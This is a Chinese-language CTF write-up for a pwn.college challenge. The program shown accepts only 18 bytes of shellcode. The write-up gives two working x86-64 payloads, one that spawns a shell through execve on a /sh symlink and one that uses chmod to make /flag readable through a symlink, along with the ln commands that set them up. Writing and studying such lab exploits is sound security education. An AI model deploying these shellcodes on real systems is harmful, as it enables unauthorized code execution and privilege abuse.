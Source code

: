 ```basic
shellcode_size = read(0, shellcode_mem, 0x12);
assert(shellcode_size > 0);

puts("Removing write permissions from first 4096 bytes of shellcode.\n");
assert(mprotect(shellcode_mem, 4096, PROT_READ|PROT_EXEC) == 0);
```
## 根据程序状态编写短 shellcode
> 由于 pwn.college 中 execve 执行获取 shell 需要-p 参数，会使得 shellcode 变长。
> 为了适应常规只需要得到 shell 就可以有 root 权限，以**本地调试**结果为例，

### 分析
**先决条件：/bin/sh 软连接到/sh**
> 建立软连接： ln -s /bin/sh  /sh

![联想截图_20240808181141.png](https://i-blog.csdnimg.cn/blog_migrate/725f9112811c3edeb7f9634d3163f331.png)
程序寄存器状态图：
![联想截图_20240808181057.png](https://i-blog.csdnimg.cn/blog_migrate/53a9750e003ba0f4349f79713d5e6975.png)
getshell 结果图
![联想截图_20240808181129.png](https://i-blog.csdnimg.cn/blog_migrate/0c7dcc880bdfdfe8318193633c93fc57.png)
### bypass
```python
sh = asm(''' 
push 0x68732f
mov rdi,rsp
xor rsi,rsi
cdq
mov al,0x3b             # 根据程序状态已达最短长度，但是有限制：execve(/bin/sh,0,0)必须能被execve(/sh,0,0)代替
syscall
''')      # 如果不能使用execve(/sh,0,0),那么由于/bin/sh超过了4字节，不能使用pop代替mov，而lea生成的则会更长
#          因此其他方法都只会更长
```
## chmod 软链接修改/flag 权限
> 建立软连接 /flag---> /home/hacker/Desktop/f：
> ln -s /flag  /home/hacker/Desktop/f
>注意由于 chmod 文件名参数是 "f"，因此**脚本需要在与 f 文件相同的目录下执行**
```python
sh = asm('''           # chmod('f',0x4)s
push 0x66
mov rdi,rsp
push 4
pop rsi
mov al,0x5a           # 这里可以使用al寄存器，rax高位全零
syscall
''')
# 该shellcode达到最短：len = 12bytes
```
## 利用 execve 执行脚本
> 将 cat /flag 写入脚本，编写 shellcode 利用 execve 执行脚本，获得 flag

